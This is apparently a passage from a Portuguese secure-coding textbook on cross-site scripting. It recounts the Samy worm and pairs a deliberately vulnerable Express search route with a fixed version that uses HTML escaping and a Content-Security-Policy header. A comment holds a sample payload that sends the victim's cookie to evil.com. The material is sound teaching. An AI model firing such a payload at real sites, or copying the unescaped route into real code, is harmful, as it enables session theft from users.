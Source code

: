 \subsection{Cross-Site Scripting (XSS)}

O atacante injeta JavaScript malicioso que executa no navegador de outros
usuários. Se injeção SQL explora a fronteira entre dados e código no
servidor, XSS explora essa mesma fronteira no cliente. O resultado pode ser
igualmente devastador: roubo de sessões, redirecionamento para sites
maliciosos, keylogging, modificação do conteúdo da página para phishing.

Um dos ataques XSS mais famosos da história foi o Samy Worm de 2005, que
se propagou pelo MySpace. O desenvolvedor Samy Kamkar descobriu que o MySpace
permitia inserir código JavaScript em perfis de usuário. Ele criou um script
que, quando alguém visitava seu perfil, adicionava Samy como amigo e copiava
o script para o perfil da vítima. Em menos de 24 horas, mais de um milhão de
perfis foram infectados, forçando o MySpace a ficar offline. O mecanismo era
simples: o MySpace renderizava conteúdo de perfil sem escapar HTML, permitindo
que tags \texttt{<script>} fossem executadas no navegador de visitantes.

Duas décadas depois, o mesmo tipo de falha continua prevalente. O padrão é
idêntico: a aplicação recebe dados do usuário e os renderiza em HTML sem
sanitização. O atacante insere um script que será executado no navegador de
quem visualizar aquele conteúdo (um comentário, um nome de usuário, um
resultado de busca).

\begin{lstlisting}[language=Java, caption={XSS -- código vulnerável (JavaScript)}]
// VULNERAVEL: inserindo input do usuario diretamente no DOM
app.get('/search', (req, res) => {
    const query = req.query.q;
    res.send(`
        <h1>Resultados para: ${query}</h1>
        <div id="results">...</div>
    `);
});

// Atacante envia: ?q=<script>document.location=
//   'https://evil.com/steal?cookie='+document.cookie</script>
// O script executa no navegador da vitima!
\end{lstlisting}

\begin{lstlisting}[language=Java, caption={XSS -- código seguro (JavaScript)}]
const escapeHtml = require('escape-html');

// SEGURO: escape de output + Content Security Policy
app.get('/search', (req, res) => {
    const query = escapeHtml(req.query.q);
    res.set('Content-Security-Policy',
        "default-src 'self'; script-src 'self'");
    res.send(`
        <h1>Resultados para: ${query}</h1>
        <div id="results">...</div>
    `);
});

// Tags HTML sao escapadas: <script> vira &lt;script&gt;
// CSP bloqueia scripts inline mesmo se o escape falhar
\end{lstlisting}

